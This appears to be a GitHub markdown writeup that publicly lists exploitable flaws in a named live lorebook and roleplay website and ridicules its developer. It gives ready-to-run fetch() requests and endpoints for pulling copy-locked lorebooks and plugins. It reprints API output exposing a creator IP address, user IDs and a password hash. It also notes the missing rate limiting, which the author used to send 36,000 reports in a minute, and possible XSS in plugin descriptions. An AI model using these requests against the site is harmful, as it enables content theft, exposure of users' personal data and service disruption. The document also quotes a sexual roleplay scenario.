

# Lorebary issues

Utilize the security flaws of Lorebary ig. Sophia gotta fix her code bruh

Actually she wouldn't fix it, Claude would cause she vibecoded the whole thing. Yes, its that easy to tell if Claude made it or not, its not rocket science.

The only good thing about the security is that the site has CORS. That's it.

> Last updated: October 16th, 2025

## Plugins

JSON endpoint for ANY plugin: https://lorebary.sophiamccarty.com/api/plugin/(plugin)

Example;

```
https://lorebary.sophiamccarty.com/api/plugin/9457BD54
```

response is

```json
{"meta":{"name":"done","author":"simonthy","tag":"PLUGIN","category":"utility","description":"No description provided","public":true,"updatedAt":"2025-09-28T17:05:44.448Z","creatorUsername":"simonthy","creatorId":"99462802-aac1-4b47-878d-515dec1f72ec","updated":"2025-09-28T17:05:45.596Z","createdAt":"2025-09-28T16:40:51.230Z","rating":5,"ratingCount":2},"triggerGroups":[{"id":0,"name":"main","type":"ALWAYS","chance":3,"keywords":[],"regex":"","flags":"gi","countOperator":">","countValue":10,"priority":50}],"stages":[],"conditions":[],"variables":{},"templates":[],"actions":{"default":[{"type":"ADD_SYSTEM_MESSAGE","pool":["[System Note: You are the world’s narrator: write strictly from the point of view of the world and its characters and never perform, decide, or describe the {{user}}’s actions, choices, or internal states; instead describe what the world makes possible, forces, or reveals (for example, “As you continue your trek…” or “You would be able to notice…”), attribute actions and intent to NPCs and the environment, present obstacles/options as external facts with any mechanical consequences when relevant, and whenever a player decision or action is required immediately, instead of acting for {{user}}, stop the response and end; do not use phrasing that assigns actions or feelings to the {{user}} (e.g., “You open the door,” “You feel…”), remain present-tense and observational throughout.]"]}]},"weightedPools":{},"transformations":[],"regexPatterns":[],"advancedCode":"","logic":{"trigger":{"type":"ALWAYS","chance":3,"keywords":[]},"actions":[{"type":"ADD_SYSTEM_MESSAGE","pool":["[System Note: You are the world’s narrator: write strictly from the point of view of the world and its characters and never perform, decide, or describe the {{user}}’s actions, choices, or internal states; instead describe what the world makes possible, forces, or reveals (for example, “As you continue your trek…” or “You would be able to notice…”), attribute actions and intent to NPCs and the environment, present obstacles/options as external facts with any mechanical consequences when relevant, and whenever a player decision or action is required immediately, instead of acting for {{user}}, stop the response and end; do not use phrasing that assigns actions or feelings to the {{user}} (e.g., “You open the door,” “You feel…”), remain present-tense and observational throughout.]"]}]},"userId":"99462802-aac1-4b47-878d-515dec1f72ec","copyCount":13,"copyHistory":[{"date":"2025-09-28T18:00:14.556Z","userId":"anonymous"},{"date":"2025-09-28T21:26:07.278Z","userId":"anonymous"},{"date":"2025-09-28T22:34:46.716Z","userId":"anonymous"},{"date":"2025-09-28T23:50:44.233Z","userId":"anonymous"},{"date":"2025-09-29T00:42:12.494Z","userId":"anonymous"},{"date":"2025-09-29T01:49:18.649Z","userId":"anonymous"},{"date":"2025-09-29T01:49:21.144Z","userId":"anonymous"},{"date":"2025-09-29T01:49:26.278Z","userId":"anonymous"},{"date":"2025-09-29T02:08:28.858Z","userId":"anonymous"},{"date":"2025-09-29T02:08:48.707Z","userId":"anonymous"},{"date":"2025-09-29T03:55:25.154Z","userId":"anonymous"},{"date":"2025-09-29T08:25:35.952Z","userId":"anonymous"},{"date":"2025-10-16T00:22:24.729Z","userId":"anonymous"}],"lastCopyDate":"2025-10-16T00:22:24.729Z","downloadCount":3,"downloadHistory":[{"date":"2025-09-29T03:55:17.966Z","userId":"anonymous"},{"date":"2025-09-29T03:55:18.212Z","userId":"anonymous"},{"date":"2025-09-29T03:55:18.920Z","userId":"anonymous"}],"lastDownloadDate":"2025-09-29T03:55:18.920Z"}
```

Also note, some plugins may have the creators IP address in the JSON.

Example one I found, I forgot in which plugin though:

```json
"creatorIP": "172.69.222.170"
```

## Lorebook

Get any lorebook ( again, copylocked or not ): 

```javascript
fetch("https://lorebary.sophiamccarty.com/api/lorebook/load", {
  "headers": {
    "accept": "*/*",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache",
    "priority": "u=1, i",
    "sec-ch-ua-mobile": "?0",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
  },
  "body": "{\"code\":\"(Lorebook code)\"}",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

Example:

```javascript
fetch("https://lorebary.sophiamccarty.com/api/lorebook/load", {
  "headers": {
    "accept": "*/*",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache",
    "priority": "u=1, i",
    "sec-ch-ua-mobile": "?0",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
  },
  "body": "{\"code\":\"F1D97B4A\"}",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

Example response (from that specific code):

```json
{
    "success": true,
    "lorebook": {
        "_id": "68eb4a97313034c8fef04ae2",
        "_code": "F1D97B4A",
        "name": "HL2",
        "description": "\"After a considerable time in development, hopefully it would have been worth my time and effort. Thanks, and have fun!\"",
        "is_creation": false,
        "scan_depth": 2,
        "token_budget": 512,
        "recursive_scanning": false,
        "extensions": {
            "chub": {
                "expressions": null,
                "alt_expressions": null,
                "id": 2904752,
                "full_path": "lorebooks/anonymous/half-life-2-world-lorebook-54bcdc0cf283",
                "related_lorebooks": [],
                "background_image": "",
                "preset": null,
                "extensions": [],
                "custom_css": null
            }
        },
        "entries": {
            "1": {
                "uid": 1,
                "key": [
                    "Combine",
                    "Universal Union",
                    "Our Benefactors",
                    "The Combine"
                ],
                "keysecondary": [],
                "comment": "",
                "content": "The Combine is a vast and powerful multi-dimensional empire, spanning multiple parallel universes. Little is known about the Combine's origins and overall goals, but it can be assumed that their ultimate ambition is to conquer and assimilate the entire Multiverse [truncated]",
                "constant": true,
                "selective": false,
                "selectiveLogic": 0,
                "order": 10,
                "position": 1,
                "disable": false,
                "addMemo": true,
                "excludeRecursion": true,
                "probability": 100,
                "displayIndex": 1,
                "useProbability": true,
                "secondary_keys": [],
                "keys": [
                    "Combine",
                    "Universal Union",
                    "Our Benefactors",
                    "The Combine"
                ],

            },

                            ... (theres more entries)
        }
    }
}

```

Another funny thing about this is that it's wasting your bandwidth. Just visiting the lorebook page loads like 5 different lorebooks in full ( no matter if they are copylocked btw, anyone with the ability to open inspect element can steal them ).

### Senarios

To get a scenario, call ```https://lorebary.sophiamccarty.com/api/scenarios/updated```

You'll get a response like this:

Example output:
```json
{
    "success": true,
    "scenarios": [
        {
            "_id": "68e88d563bcfdd6f9126d258",
            "id": "mgkc8d9u96c6vmo6xfg",
            "title": "Gender imbalance",
            "author": "Shadowy21",
            "description": "Women outnumber men",
            "tags": [
                "NSFW",
                "World building",
                "polygamy"
            ],
            "content": "For as long as anyone can remember there has always been more women in the world than men. A natural thing where most babies born just happen to be girls. This has lead to the world developing in its own ways. Most jobs are primarily staffed by women. Sexual freedom developing early on has pushed clothing trends to be skimpier and skimpier over the decades, leading to the modern style of little clothing and toplessness being the popular fashion. Fashion was also pushed by a diffrent reason, fewer men means fewer husbands and every woman and girl needs an edge. Competition is high and it is common for a man to have multiple partners at once, and a few more sex friends on the side. Monogamy is discouraged and any men who hold to that fringe cult belief are ostracized, with many woman trying to convert them to the right understanding of large harems.\n\nFashion: Women use their bodies as a weapon in the fight to claim a man. Skimpy and slutty is the dominant fashion worn by women, with prudes even showing lots of leg and cleavage. Currently the top fashion among young women is going topless in booty shorts, completely legal as public indecency is nonexistant.\n\nCompetition: It's a woman eat woman world, every woman knows that there aren't enough men for monogamy to ever work. While it is the norm for men to have multiple women in a single relationship, and a few more on the side, there is still heavy compitition for those spots and the affection that comes with it. Women will constantly try to one up each other and put their rivals down. Every woman is a rival to every other woman even in harems where they compete for attention and affection, single women are especially vicious where they will do anything for a man to be at their side",
            "type": "custom",
            "public": true,
            "createdAt": "2025-10-10T04:36:38.508Z",
            "updatedAt": "2025-10-16T06:43:12.144Z",
            "meta": {
                "title": "Gender imbalance",
                "description": "Women outnumber men",
                "author": "Shadowy21",
                "public": true,
                "updatedAt": "2025-10-16T06:43:11.980Z",
                "creatorUsername": "Shadowy21",
                "creatorId": "63d31321-b7d5-40b9-91e8-900d032ffb7c"
            },
            "_code": "7WW9XU",
            "code": "7WW9XU",
            "userId": "63d31321-b7d5-40b9-91e8-900d032ffb7c",
            "isPublic": true,
            "views": 85,
            "downloads": 1,
            "likes": 0,
            "rating": 0,
            "ratingCount": 0,
            "commandCopies": 7,
            "password": "$2b$10$D3r6.flCi1iGtzIEEALPlOLfYc/MIrTRQkhIm6nb84PgEmfkQpgWG",
            "copyCount": 7,
            "copyHistory": [
                {
                    "date": "2025-10-11T04:49:52.655Z",
                    "userId": "anonymous"
                },
                ...
            ]
        }
    ]
}
```

Notice that the passwords in the JSON response. Nice work Sophia, so secure.


### Rate limiting

There is none. There is absolutely no rate limiting. You can send 36 thousand requests in a minute and nothing stops you. 

I know this because I reported a loli lorebook 36 thousand times in a minute. Glad to see it got banned, not glad to see the lack of security.



Proof BTW.

### Reports

You can create a report by calling ```https://lorebary.sophiamccarty.com/api/report/lorebook/(lorebook code)```


### Misc

> Note: I last checked these like a week or two ago, so they may be outdated.

#### Plugins:

You can put any length of text as a plugin description. Theres no limit.
You can also embed images and other HTML (possible XSS).

This mixed with the zero rate limit can possibly result in a issue that could bring the site down at any given moment.


### Plugins, lorebooks and scenarios

You can likely spam create thousands of plugins, lorebooks and senarios in less than a minute.

I haven't tested this cause I don't want to ruin the service for others, however it's a concern.